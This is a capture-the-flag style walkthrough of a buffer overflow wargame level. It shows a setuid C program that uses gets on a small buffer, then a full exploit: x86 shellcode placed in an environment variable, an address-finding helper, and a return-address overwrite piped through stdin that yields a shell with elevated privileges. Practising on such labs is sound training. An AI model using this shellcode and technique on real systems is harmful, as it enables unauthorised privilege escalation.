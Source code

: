 # Level3

## This level's goal
- LEVEL3 (cobolt -> goblin) : small buffer + stdin

***

```
[cobolt@localhost cobolt]$ bash2
[cobolt@localhost cobolt]$ ls -l
total 16
-rwsr-sr-x    1 goblin   goblin      11824 Feb 26  2010 goblin
-rw-r--r--    1 root     root          193 Mar 29  2010 goblin.c

[cobolt@localhost cobolt]$ cat goblin.c
/*
        The Lord of the BOF : The Fellowship of the BOF
        - goblin
        - small buffer + stdin
*/

int main()
{
    char buffer[16];
    gets(buffer);
    printf("%s\n", buffer);
}
```

This level's code seems like level2 but there is the difference of gets function. (level2 is strcpy)

This concept is totally same like level2, but I will exploit with the diffence way. (Use stdin)

```
[cobolt@localhost cobolt]$ export EGG=`python -c 'print "\x31\xc0\xb0\x31\xcd\x80\x89\xc3\x89\xc1\x31\xc0\xb0\x46\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"'`

[cobolt@localhost cobolt]$ echo 'int main() { printf("EGG -> 0x%x\n", getenv("EGG")); } ' > getegg.c
[cobolt@localhost cobolt]$ gcc getegg.c -o getegg
[cobolt@localhost cobolt]$ ./getegg
EGG -> 0xbffffea7

[cobolt@localhost cobolt]$ (python -c 'print "A"*20+"\xa7\xfe\xff\xbf"'; cat) | ./goblin
AAAAAAAAAAAAAAAAAAAA§þÿ¿
id
uid=503(goblin) gid=502(cobolt) egid=503(goblin) groups=502(cobolt)
my-pass
euid = 503
hackers proof
```
